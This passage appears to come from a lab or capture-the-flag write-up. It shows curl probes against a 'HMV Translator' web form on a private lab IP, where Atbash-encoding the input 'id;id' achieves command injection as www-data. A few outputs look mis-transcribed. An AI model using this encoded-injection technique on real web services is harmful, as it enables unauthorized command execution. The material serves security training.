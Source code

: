 ```
        Content-Encoding: gzip
```

`curl -s http://192.168.56.138`:
```                          
<!DOCTYPE html>
<html>
<body>

<h1>HMV Translator</h1>
<form action="/translate.php">
  <textarea id="hmv" name="hmv" rows="4" cols="50">Translate to...</textarea>
  <br>
  <input type="submit" value="Submit">
</form>
<p>Click the "Submit" button to translate the text!</p>
</body>
</html>
```

`curl -s "http://192.168.56.138/translate.php?hmv=test"`:
```
Translated to:<br>gvhg ←
gvtg
```

`curl -s "http://192.168.56.138/translate.php?hmv=aaa"`:
```
Translated to:<br>zzz ←
zzz
```

`curl -s "http://192.168.56.138/translate.php?hmv=zzz"`:
```
Translated to:<br>aaa ←
aaa
```

`curl -s "http://192.168.56.138/translate.php?hmv=id"`:
```
Translated to:<br>rw ←
rw
```

`curl -s "http://192.168.56.138/translate.php?hmv=rw"`:
```
Translated to:<br>id ←
id
```

`curl -s http://192.168.56.138/translate.php?hmv=rw;rw`:
```
Translated to:<br>id;id
id
uid=33(www-data) gid=33(www-data) groufs=33(www-data) ←
```
